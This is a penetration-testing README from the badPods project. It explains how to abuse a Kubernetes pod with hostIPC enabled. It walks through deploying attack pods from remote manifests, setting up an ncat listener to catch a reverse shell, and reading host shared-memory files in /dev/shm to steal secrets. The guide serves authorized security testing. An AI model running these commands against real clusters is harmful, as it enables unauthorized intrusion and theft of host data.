

# Bad Pod #7: hostIPC


If you only have `hostIPC=true`, you most likely can't do much. If any process on the host or any processes within another pod is using the host’s inter-process communication mechanisms (shared memory, semaphore arrays, message queues, etc.), you'll be able to read/write to those same mechanisms. The first place you'll want to look is `/dev/shm`, as it is shared between any pod with `hostIPC=true` and the host. You'll also want to check out the other IPC mechanisms with `ipcs`.

* **Inspect /dev/shm** - Look for any files in this shared memory location. 
* **Inspect existing IPC facilities** – You can check to see if any IPC facilities are being used with `/usr/bin/ipcs`. 


## Table of Contents
- [Pod creation & access](#pod-creation--access)
  - [Exec pods](#exec-pods)
  - [Reverse shell pods](#reverse-shell-pods)
  - [Deleting resources](#deleting-resources)
- [Post exploitation](#post-exploitation)
  - [Inspect /dev/shm - Look for any files in this shared memory location.](#inspect-devshm---look-for-any-files-in-this-shared-memory-location)
  - [Look for any use of inter-process communication on the host](#look-for-any-use-of-inter-process-communication-on-the-host)
  - [Attacks that apply to all pods, even without any special permissions](#attacks-that-apply-to-all-pods-even-without-any-special-permissions)
- [Demonstrate impact](#demonstrate-impact)
- [References and further reading:](#references-and-further-reading)

# Pod creation & access

## Exec pods
Create one or more of these resource types and exec into the pod

**Pod**  
```bash
kubectl apply -f https://raw.githubusercontent.com/BishopFox/badPods/main/manifests/hostipc/pod/hostipc-exec-pod.yaml
kubectl exec -it hostipc-exec-pod -- bash
```
**Job, CronJob, Deployment, StatefulSet, ReplicaSet, ReplicationController, DaemonSet**

* Replace [RESOURCE_TYPE] with deployment, statefulset, job, etc. 

```bash
kubectl apply -f https://raw.githubusercontent.com/BishopFox/badPods/main/manifests/hostipc/[RESOURCE_TYPE]/hostipc-exec-[RESOURCE_TYPE].yaml 
kubectl get pods | grep hostipc-exec-[RESOURCE_TYPE]      
kubectl exec -it hostipc-exec-[RESOURCE_TYPE]-[ID] -- bash
```

*Keep in mind that if pod security policy blocks the pod, the resource type will still get created. The admission controller only blocks the pods that are created by the resource type.* 

To troubleshoot a case where you don't see pods, use `kubectl describe`

```
kubectl describe hostipc-exec-[RESOURCE_TYPE]
```

## Reverse shell pods
Create one or more of these resources and catch the reverse shell

**Step 1: Set up listener**
```bash
ncat --ssl -vlp 3116
```

**Step 2: Create pod from local manifest without modifying it by using env variables and envsubst**

* Replace [RESOURCE_TYPE] with deployment, statefulset, job, etc. 
* Replace the HOST and PORT values to point the reverse shell to your listener
* 
```bash
HOST="10.0.0.1" PORT="3116" envsubst < ./manifests/hostipc/[RESOURCE_TYPE]/hostipc-revshell-[RESOURCE_TYPE].yaml | kubectl apply -f -
```

**Step 3: Catch the shell**
```bash
$ ncat --ssl -vlp 3116
Ncat: Generating a temporary 2048-bit RSA key. Use --ssl-key and --ssl-cert to use a permanent one.
Ncat: Listening on :::3116
Ncat: Listening on 0.0.0.0:3116
Connection received on 10.0.0.162 42035
```

## Deleting resources
You can delete a resource using it's manifest, or by name. Here are some examples: 
```
kubectl delete [type] [resource-name]
kubectl delete -f manifests/hostipc/pod/hostipc-exec-pod.yaml
kubectl delete -f https://raw.githubusercontent.com/BishopFox/badPods/main/manifests/hostipc/pod/hostipc-exec-pod.yaml
kubectl delete pod hostipc-exec-pod
kubectl delete cronjob hostipc-exec-cronjob
```

# Post exploitation 

## Inspect /dev/shm - Look for any files in this shared memory location

For a super simple POC, I have created a secret file in /dev/shm on the worker node
```
root@k8s-worker:/# echo "secretpassword=BishopFox" > /dev/shm/secretpassword.txt
```


From the hostIPC pod, we can list all files in /dev/shm
```
root@hostipc-exec-pod:/# ls -al /dev/shm/
total 4
drwxrwxrwt 3 root root  80 Dec 22 15:11 .
drwxr-xr-x 5 root root 360 Dec 21 20:01 ..
drwx------ 4 root root  80 Sep  9 20:10 multipath
-rw-r--r-- 1 root root  25 Dec 22 15:11 secretpassword.txt
```

Check out any interesting files
```
root@hostipc-exec-pod:/# cat /dev/shm/secretpassword.txt
secretpassword=BishopFox
```

## Look for any use of inter-process communication on the host 
```bash
ipcs -a
```

## Attacks that apply to all pods, even without any special permissions

**To see these in more detail, head over to [nothing-allowed/README.md](../nothing-allowed)** 

* Access the cloud metadata service
* `Kube-apiserver` or `kubelet` with `anonymous-auth` enabled
* Kubernetes exploits
* Hunting for vulnerable application/services in the cluster

# Demonstrate impact
If you are performing a penetration test, the end goal is not to gain cluster-admin, but rather to demonstrate the impact of exploitation. Use the access you have gained to accomplish the objectives of the penetration test.

# References and further reading: 
* https://docs.docker.com/engine/reference/run/#ipc-settings---ipc
* https://opensource.com/article/20/1/inter-process-communication-linux
